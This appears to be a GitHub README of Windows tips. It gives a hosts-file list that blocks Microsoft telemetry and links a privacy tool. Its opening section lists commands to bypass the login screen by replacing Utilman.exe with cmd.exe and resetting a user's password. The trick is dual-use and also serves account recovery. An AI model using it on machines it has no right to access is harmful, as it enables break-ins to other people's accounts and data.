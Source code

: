 # Windows Tricks
Guide on certain things Windows


_______________________________________________________________________________

# Cracking a windows password / bypassing the login screen

Boot Into Your Flash Drive And Type These Commands

`fdisk -l`

`mount -t ntfs /dev/(windows drive) /mnt`

`cd /mnt/Windows/System32`

`cp cmd.exe Utilman.exe`

reboot

Click On The Accesibility Button And Type This Command When The CMD Window Lauches

`net user (User) *` 

## If you try to mount the Windows drive and get an error of hibernation just use the command:

`sudo ntfsfix /dev/sdXY`

ITS POSSIBLE THAT THIS COMMAND CORRUPTS THE WINDOWS FILESYSTEM, KNOW THE POSSIBLE CONSEQUENCES BEFOREHAND 
________________________________________________________________________________

# Anti-Spyware Tool

https://www.oo-software.com/de/shutup10

Kill Spyware and unnecesary bloat in Windows using this utility

make sure that you read trough your selections, this tool can temporarily block key system functions / settings

________________________________________________________________________________

# Host file sinkholing Spyware

    127.0.0.1 localhost
    ::1 localhost
    127.0.0.1 data.microsoft.com
    127.0.0.1 msftconnecttest.com
    127.0.0.1 azureedge.net
    127.0.0.1 activity.windows.com
    127.0.0.1 bingapis.com
    127.0.0.1 msedge.net
    127.0.0.1 assets.msn.com
    127.0.0.1 scorecardresearch.com
    127.0.0.1 edge.microsoft.com
    127.0.0.1 data.msn.com
